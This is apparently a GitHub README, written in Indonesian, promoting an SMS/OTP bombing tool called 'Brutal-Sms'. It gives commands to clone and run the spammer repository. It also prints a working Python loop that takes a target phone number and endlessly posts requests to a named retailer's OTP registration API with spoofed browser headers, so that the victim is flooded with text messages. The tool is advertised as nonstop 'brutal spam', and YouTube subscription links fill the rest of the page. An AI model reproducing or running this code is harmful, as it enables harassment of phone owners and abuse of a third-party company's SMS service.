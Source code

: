 ## Brutal-Sms
Perfect Tools spam 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/KazeDevID/Spammer
  cd Spammer
  bash install.sh
  python run.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### KELEBIHAN 📍
| Kelebihan | Check |
|--------|--------|
| **24 Jam non stop** |[✔️](https://github.com/KazeDevID) |
| **Brutal Spam** |[✔️](https://github.com/KazeDevID) |
| **Simple** |[✔️](https://github.com/KazeDevID) |
| **No Error** |[✔️](https://github.com/KazeDevID) |
| **Subscribe** |[Here](https://youtube.com/channel/UCbbWYVvhTHz3AzfgYz4fMgg) |
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=KAZEDEVID&color=green)](https://youtube.com/channel/UCbbWYVvhTHz3AzfgYz4fMgg)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=KAZEDEVID&color=green)](https://youtube.com/channel/UCbbWYVvhTHz3AzfgYz4fMgg)

